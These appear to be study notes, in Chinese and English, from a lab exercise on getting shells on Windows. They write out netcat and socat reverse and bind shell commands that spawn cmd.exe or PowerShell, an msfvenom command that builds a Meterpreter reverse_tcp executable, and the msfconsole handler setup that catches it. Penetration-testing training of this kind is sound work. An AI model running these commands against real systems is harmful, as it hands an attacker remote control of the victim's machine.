 		--> Netcat 反向 Shell — Windows
			--> kali : rlwrap nc -lvnp 443
			--> Rdp  : 
				--> cmd : nc 10.11.92.230 443 -e "cmd.exe"
					=> C:\Users\Administrator>
				--> PS  : nc 10.11.92.230 443 -e "powershell.exe"
					=> PS C:\Users\Administrator>
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
		--> Netcat 綁定 Shell — Windows
			--> Rdp  : 
				--> cmd :  nc -lvnp 1024 -e "cmd.exe"
			--> kali : 
				--> nc -nv 10.10.223.187 1024
				
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~				
		--> Socat 反向 Shell — Windows
			--> kali : 
				--> socat TCP-L:443 - 
			--> Rdp  : 
				--> cmd : socat TCP:10.11.92.230:443 EXEC:cmd.exe,pipes
				
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~			
		--> Socat 綁定 Shell — Windows
			--> Rdp  : 
				--> cmd : socat TCP-L:8080 EXEC:cmd.exe,pipes
			--> kali : 
				--> socat TCP:10.10.223.187:8080 -

	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> task 10:
		=> get Meterpreter shell : 
			--> msfvenom 建立 64 位元 Windows Meterpreter shell 並將其上傳到 Windows Target
			
		=> get a shell.exe : 	uploadfile_shell_meterpreter.exe
				--> msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.11.92.230 LPORT=443
	
		--> 啟動 shell 並使用 multi/handler 捕獲它
			--> msfconsole
				--> use multi/handler
				--> set PAYLOAD windows/x64/meterpreter/reverse_tcp
				--> set LHOST 10.11.92.230
				--> set LPORT 443
				--> run 
				
		--> unload File (shell.exe)
			--> download it on targat computer : rdp 
				--> then run the file 
			--> after run => 
				meterpreter >
			
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> task 11:	
		--> 為任一目標建立分階段和無階段的 meterpreter shell。上傳並手動啟動它們
			-->  meterpreter shell 只能用 Metasploit 或 msfconsole 捕獲
